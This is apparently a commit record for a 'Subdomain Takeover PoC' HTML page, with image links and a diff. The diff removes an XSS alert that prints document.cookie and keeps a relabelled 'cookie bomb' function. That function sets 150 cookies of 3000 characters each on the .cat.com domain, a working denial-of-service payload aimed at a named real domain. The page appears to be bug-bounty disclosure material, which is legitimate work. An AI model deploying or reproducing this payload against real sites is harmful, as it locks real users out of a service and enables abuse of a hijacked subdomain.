

Before and after one commit to luq0x/subtakeover, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update: single DoS PoC button

```diff
--- a/index.html
+++ b/index.html
@@ -7,12 +7,8 @@
 <body>
     <h1>Subdomain Takeover PoC by m4rc10sz/luq0x</h1>
     <hr>
-    <button onclick="executeXSS()">Execute XSS Alert</button>
-    <button onclick="cookieBomb()">Execute Cookie Bomb</button>
+    <button onclick="cookieBomb()">Execute DoS PoC</button>
     <script>
-        function executeXSS() {
-            alert("XSS Execution Context: " + document.cookie);
-        }
         function cookieBomb() {
             for (var i = 0; i < 150; i++) {
                 document.cookie = "cb_" + i + "=" + "B".repeat(3000) + "; domain=.cat.com; path=/; SameSite=None; Secure";
```
